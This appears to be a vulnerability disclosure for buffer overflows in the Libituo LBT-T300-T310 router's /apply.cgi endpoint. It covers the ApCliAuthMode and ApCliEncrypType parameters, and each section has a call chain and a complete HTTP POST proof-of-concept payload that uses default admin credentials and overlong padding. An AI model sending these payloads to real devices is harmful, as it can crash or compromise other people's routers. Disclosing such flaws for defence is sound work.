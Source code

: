 ﻿# LBT-T310 Buffer Overflow
**Vulnerability description**
Shenzhen Libituo Technology Co., Ltd LBT-T300-T310 v2.2.2.6 was discovered to contain a buffer overflow via multiple s parameters at /apply.cgi.

## 1.ApCliAuthMode

### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliAuthMode parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5860fcd7934499a8682a15e826b797e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPENAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

## 2.ApCliEncrypType
### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliEncrypType parameter, a buffer overflow vulnerability is created.
function call chain
Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/8316e2625c1b41d3a8dee38af221a239.png

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3fc42eb40440bf94d969296e821661.jpeg)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPEN&ApCliEncrypType=NONEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

